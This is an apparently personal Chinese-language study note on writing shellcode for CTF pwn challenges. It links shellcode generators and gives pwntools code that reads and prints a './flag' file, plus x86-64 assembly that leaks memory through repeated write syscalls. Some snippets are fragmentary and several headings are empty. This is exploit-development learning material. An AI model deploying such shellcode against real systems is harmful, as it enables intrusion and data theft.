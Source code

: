 ```yaml
---
title: shellcode 汇编
updated: 2022-08-23T15:28:12.0000000+08:00
created: 2021-12-03T20:06:00.0000000+08:00
---
```


## 自动生成
- <http://shell-storm.org/shellcode/>
- [Exploit Database Shellcodes (exploit-db.com)](https://www.exploit-db.com/shellcodes)
### msfvenom
### shell-storm
### pwntools
[纯字符shellcode生成指南 \| TaQini](http://taqini.space/2020/03/31/alpha-shellcode-gen/#alphanumeric-shellcode)

## 原理（见ROP）
## 汇编代码参考
## 编写
[Compiler Explorer (godbolt.org)](https://godbolt.org/) 在线生成汇编码
### 用pwntools编写（功能不全，不支持相对跳转）

shellcode = shellcraft.open('./flag')

shellcode += shellcraft.read('eax','esp',0x30)

shellcode += shellcraft.write(1,'esp',0x30)

code = asm(shellcode)

offset = 0x1248

sc = """

mov rdi, 1

mov rsi, 0x402000

mov rdx, 0x20

mov rax, 1

syscall

mov rsi,rcx

sub rsi,{}

mov rbx, 0

mov rdi, 1

mov rdx, 0x80

mov rax, 1

syscall

sub rsi,0x1000

add rbx, 1

cmp rbx,0xffff

""".format(offset)

sd(asm(sc)+b'\x7e\xd5')

mov edx, DWORD PTR \[esi\]

（反汇编是disasm(b'\xb8\x0b\x00\x00\x00'))

[pwnlib.asm — Assembler functions — pwntools 4.7.0 documentation](https://docs.pwntools.com/en/stable/asm.html?highlight=disassemble#disassembly)
### gcc编译再反汇编
**gcc -c code.s**

**objdump -d code.o \>code.d**

.global \_start

.text

\_start:

mov \$1, %rdi

mov \$0x402000, %rsi

mov \$0x20, %rdx

mov \$1, %rax

syscall

mov %rcx, %rsi

sub \$0x1248, %rsi

mov \$0, %rbx

loooop:

mov \$1, %rdi

mov \$0x20, %rdx

mov \$1, %rax

syscall

sub \$0x1000, %rsi

add \$1, %rbx

cmp \$0xfff, %rbx

jle loooop
###  keystone-engine
